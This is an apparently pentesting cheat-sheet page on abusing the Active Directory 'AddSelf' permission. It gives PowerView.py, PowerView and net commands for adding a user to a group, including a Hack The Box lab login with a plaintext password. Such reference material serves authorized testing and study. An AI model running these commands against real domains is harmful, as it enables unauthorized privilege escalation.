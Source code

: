 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# AddSelf

## Information

The principal has the ability to add itself to the target group.

## Exploitation

### Add User to Group

This can be done natively ([opsec considerations](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#id17)) or with [PowerView](../../../tools/active-directory/powerview.md).

{% tabs %}
{% tab title="PowerView.py" %}
```bash
# connect to the DC
powerview rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -k
# add user to the group
PV > Add-DomainGroupMember -Identity servicemgmt -Members oorend
# confirm group membership
PV > Get-DomainGroupMember -Identity servicemgmt
```
{% endtab %}

{% tab title="PowerView" %}
```powershell
# add user to the group
Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'
# confirm group membership
Get-DomainGroupMember -Identity '<GROUP>'
```
{% endtab %}

{% tab title="net" %}
```powershell
# add user to the group
net group '<GROUP>' '<USER>' /add /domain
# confirm group membership
net group <GROUP> /domain
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#addself" %}
{% endtab %}
{% endtabs %}
